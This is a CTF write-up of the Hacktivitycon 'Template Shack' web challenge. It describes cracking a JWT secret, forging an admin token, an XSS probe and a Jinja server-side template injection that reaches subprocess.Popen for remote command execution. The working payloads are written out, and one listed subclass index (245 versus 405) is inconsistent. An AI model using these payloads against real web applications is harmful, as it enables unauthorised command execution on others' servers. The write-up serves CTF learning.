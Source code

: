 ```yaml
---
title: "Tempate Shack"
subtitle: "Hacktivitycon Pre-Game '21'"
author: SinDaRemedy
date: "2021-09-13"
subject: "Template Shack Writeup"
keywords: \[Hacktivitycon, CTF, InfoSec\]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
titlepage-rule-height: 0
logo: "./logo.png"
logo-width: 3in
toc: true
toc-own-page: true
---
```


# Template Shack

Writeup by: [SinDaRemedy](https://github.com/SinDaRemedy)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/Template_Shack/)

----

![[Screen Shot 2021-09-14 at 5.03.40 AM.png]]

## Initial Research

When I entered the site the first thing i noticed was the login portal. I inspected the page source, clicked on sb admin 2 to see if I'd find anyting interesting but there was nothing to be found. 

![[Screen Shot 2021-09-14 at 4.11.55 AM.png]]

Of course, as most of us would do, I tried to login in with the common default creds and then proceeded to look for other vectors.  Checked out the browser inspector and burpsuite  and realized there was a token in the cookies. 

I made note of the server and checked for vulnerabilities for Python 3.6.9 then found [**CVE-2019-16935**](https://nvd.nist.gov/vuln/detail/CVE-2019-16935#vulnCurrentDescriptionTitle) and a weakness enumeration for XSS at [**CWE-79**](http://cwe.mitre.org/data/definitions/79.html)

![[Screen Shot 2021-09-14 at 4.26.54 AM.png]]

![[Screen Shot 2021-09-14 at 12.49.18 AM.png]]

Since token-based authentication doesn't require that the server know about the session data and I had a hash I figured this would be a possible attack vector. I made a file with the token and and decoded the hash with John-the-Ripper (john).  We cracked the hash and the password was "**supersecret**"

![[Screen Shot 2021-09-14 at 1.22.07 AM.png]]

At the same time I was also working on decoding and creating a new web token for the admin. I changed the guest to admin and entered the password in order to get my new hash.

![[Screen Shot 2021-09-14 at 12.48.59 AM 1.png]]

## Initial Access/Testing

![[Screen Shot 2021-09-14 at 4.31.10 AM.png]]

Then it was time for the next logical step.. Let's see if this exploit actually works!

First thing I wanted to see is if I can get an XSS alert

``` Javascript
username=<Script Language="Javascript">alert("You've been attacked!");</Script>
```

![[Screen Shot 2021-09-14 at 1.24.59 AM.png]]


Then I wanted to see if we could get a Server Side Template Injection with jinja by doing some basic math. 

``` python
{{7*7}}
```

![[Screen Shot 2021-09-14 at 1.22.55 AM.png]]

## Payload 

Immediately after started to craft a payload with a couple of things in mind. 

- The goal was to get command execution
- One thing I knew was python **metadata properties can be accessed through any object. **
	- I needed to first start with accessing the "**__class__**" from the metaproperties.
		- Then proceed to accessing the Method Resolution Object (**MRO**) since from there I could start to enumerate the hierarchy and subclasses. 
		- From the subclasses we have to try to gain access to a class that will allow us to execute commands

**All payloads are entered after the url as a path**

``` python
{{''.__class__}}
```

![[Screen Shot 2021-09-14 at 2.31.10 AM.png]]

``` python
{{''.__class__.__mro__}}
```

![[Screen Shot 2021-09-14 at 3.41.32 AM.png]]

```python
{{' '.__class__.__mro__[0].__subclasses__()}}
```

![[Screen Shot 2021-09-14 at 2.40.48 AM.png]]

```python
{{''.__class__.__mro__[1].__subclasses__()}}
```

![[Screen Shot 2021-09-14 at 2.42.39 AM.png]]

I copied and pasted all the output in to "subclasses.txt".  cleaned up the data so that it was more manageable. 

``` shell
cat subclasses.txt| tr ',' '\n' > subclasses_new.txt
```

Since the goal of this payload is to [execute a command through the shell](https://docs.python.org/2/library/subprocess.html#popen-constructor) I wanted to begin searching for the **Popen** class. I filtered the search in "subclasses_new.txt" for "Popen" and seen that  "subprocess.Popen" was indexed as #405 on the list (Starting with 0). 

![[Screen Shot 2021-09-14 at 3.04.35 AM.png]]

I confirmed that it was the indexed as 405 in the list by adding it to the to the payload. 

``` python
{{[].__class__.__mro__[1].__subclasses__()[245]}}

<class 'subprocess.Popen'>
```

![[Screen Shot 2021-09-14 at 3.33.26 AM.png]]

After making note of that I continued to modify the script as shown below and test the command execution.

``` python
{{[].__class__.__mro__[1].__subclasses__()[405]('ls -la',shell=True,stdout=-1).communicate()[0].strip()}}
```

![[Screen Shot 2021-09-14 at 3.40.04 AM.png]]

You can see that flag.txt is in the current directory so now all there was to do was change the command in order to retrieve the flag. So we change "ls -la" to "cat flag.txt" 

![[Screen Shot 2021-09-14 at 4.06.11 AM.png]]

## Victory!!

Now to submit the flag!

flag{easy_jinja_SSTI_RCE}


